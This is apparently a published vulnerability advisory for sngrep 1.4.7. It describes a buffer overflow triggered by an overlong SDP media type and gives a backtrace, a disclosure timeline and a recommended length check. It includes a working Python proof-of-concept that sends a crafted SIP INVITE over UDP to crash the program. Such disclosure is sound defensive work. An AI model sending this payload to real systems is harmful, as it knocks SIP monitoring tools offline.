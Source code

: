 # sngrep crashes due to a buffer overflow caused by a malformed SDP media type

- Fixed versions: 1.4.8
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2020-03-sngrep-malformed-media-type>
- Tested vulnerable versions: 1.4.7
- Timeline:
    - Report date: 2020-09-16
    - sngrep confirmed issue + patch: 2020-09-16
    - sngrep release with fix: 2020-11-10
    - Enable Security advisory: 2020-11-20

## Description

When sending a specially crafted SIP message with a malformed SDP media type, `sngrep` crashes due to a buffer overflow. The following backtrace was generated during our tests:

```
#0  __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:50
#1  0x00007ffff7ced859 in __GI_abort () at abort.c:79
#2  0x00007ffff7d583ee in __libc_message (action=action@entry=do_abort, 
    fmt=fmt@entry=0x7ffff7e8207c "*** %s ***: terminated\n")
    at ../sysdeps/posix/libc_fatal.c:155
#3  0x00007ffff7dfa9ba in __GI___fortify_fail (
    msg=msg@entry=0x7ffff7e82012 "buffer overflow detected") at fortify_fail.c:26
#4  0x00007ffff7df9256 in __GI___chk_fail () at chk_fail.c:28
#5  0x00007ffff7df8b36 in __strcpy_chk (dest=0x7ffff00306f2 "", 
    src=0x7ffff79fcad1 'A' <repeats 200 times>..., destlen=destlen@entry=15)
    at strcpy_chk.c:30
#6  0x0000555555563f72 in strcpy (__src=<optimized out>, __dest=<optimized out>)
    at /usr/include/x86_64-linux-gnu/bits/string_fortified.h:90
#7  media_set_type (media=<optimized out>, type=<optimized out>) at media.c:65
#8  0x0000000000000000 in ?? ()
```

The issue was originally discovered during [OpenSIPIt](https://opensipit.org/); tracked down and analyzed for severity and impact later.

## Impact

Since most modern build systems will automatically include run-time best practice checks, it is highly unlikely that this issue is exploited in a way that it overwrites to adjacent memory locations. However, due to how fortify protection works, the program will still end up crashing. Nonetheless, this issue should not be dismissed by relying on build system protections and should be adequately fixed.

## How to reproduce the issue

1. Run `sngrep`
1. Execute the below python program
1. Notice that `sngrep` has crashed

```python
import socket

sdp="v=0\r\n" + \
    "o=- 1600157102 1600157102 IN IP4 127.0.0.1\r\n" + \
    "s=-\r\n" + \
    "c=IN IP4 127.0.0.1\r\n" + \
    "t=0 0\r\n" + \
    "m=%s 9999 RTP/AVP 8 0 96 101\r\n" % ('A' * 1024) + \
    "a=rtpmap:8 PCMA/8000/1\r\n" + \
    "a=rtpmap:0 PCMU/8000/1\r\n" + \
    "a=rtpmap:96 opus/96000/2\r\n" + \
    "a=rtpmap:101 telephone-event/8000/1\r\n" + \
    "a=sendrecv"

sip_msg="INVITE sip:bob_1@127.0.0.1:5060 SIP/2.0\r\n" + \
    "Via: SIP/2.0/UDP 127.0.0.1:40111;rport;branch=z9hG4bK-a\r\n" + \
    "Max-Forwards: 70\r\n" + \
    "From: <sip:bob_1@127.0.0.1:5060>;tag=3Ewqeuo81F1Hjvtg\r\n" + \
    "To: <sip:bob_1@127.0.0.1:5060>\r\n" + \
    "Call-ID: maooZ4nDzmArTBkT\r\n" + \
    "CSeq: 1020 INVITE\r\n" + \
    "Contact: <sip:bob_1@127.0.0.1:40111;transport=udp>\r\n" + \
    "Content-Length: %i\r\n" % len(sdp) + \
    "Content-Type: application/sdp\r\n" + \
    "\r\n" + \
    sdp

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(sip_msg.encode(), ("127.0.0.1", 5060))
```


## Solutions and recommendations

It is recommended that the length of the string passed to function `media_set_type` in `media.c` is checked against `MEDIATYPELEN`, which is of length 15.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

